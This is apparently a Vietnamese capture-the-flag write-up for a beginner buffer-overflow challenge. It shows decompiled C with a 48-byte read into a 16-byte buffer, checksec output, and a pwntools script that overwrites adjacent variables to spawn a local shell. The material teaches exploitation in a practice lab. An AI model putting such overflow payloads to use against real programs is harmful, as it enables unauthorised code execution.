 **1. Tìm lỗi**

Dùng lệnh 'file' để kiểm tra

![file.png](photo/file.png)

Ta thấy là file 64bit nên mở bằng IDA64 ta có source như sau:

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[16]; // [rsp+0h] [rbp-30h] BYREF
  __int64 v5; // [rsp+10h] [rbp-20h]
  __int64 v6; // [rsp+18h] [rbp-18h]
  __int64 v7; // [rsp+20h] [rbp-10h]
  int v8; // [rsp+2Ch] [rbp-4h]

  v8 = 0;
  v7 = 0LL;
  v6 = 0LL;
  v5 = 0LL;
  init(argc, argv, envp);
  printf("> ");
  v8 = read(0, buf, 0x30uLL);
  if ( buf[v8 - 1] == 10 )
    buf[v8 - 1] = 0;
  printf("a = %ld\n", v7);
  printf("b = %ld\n", v6);
  printf("c = %ld\n", v5);
  if ( v7 == 322376503 && v6 == 3735928559LL && v5 == 3405691582LL )
    system("/bin/sh");
  return 0;
}
```

Ta thấy biến buf được khai báo 16 byte nhưng cho phép nhập 0x30 = 48 byte nên nghĩ tới lỗi bof

Dùng lệnh 'checksec' để kiểm tra ta thấy

![checksec.png](photo/checksec.png)

Ta thấy canary đang ở trạng thái disabled nên có thể khai thác qua lỗi bof

**2. Ý tưởng**

Ta dã xác định đươc lỗi bof nên sẽ tận dụng lỗi đó để nhập tràn biến buf rồi chèn các giá trị phù hợp cho v5, v6, v7 để lấy shell

**3. Viết script**

![value.png](photo/value.png)

Ta thấy các giá trị phù hợp là: 

v5 = 0xcafebabe

v6 = 0xdeadbeef

v7 = 0x13371337

Ta có script như sau:

```
from pwn import *

r = process("./bof2")

v5 = 0xcafebabe
v6 = 0xdeadbeef
v7 = 0x13371337
payload = b'a'*16 + p64(v5) + p64(v6) + p64(v7)
r.sendline(payload)
r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)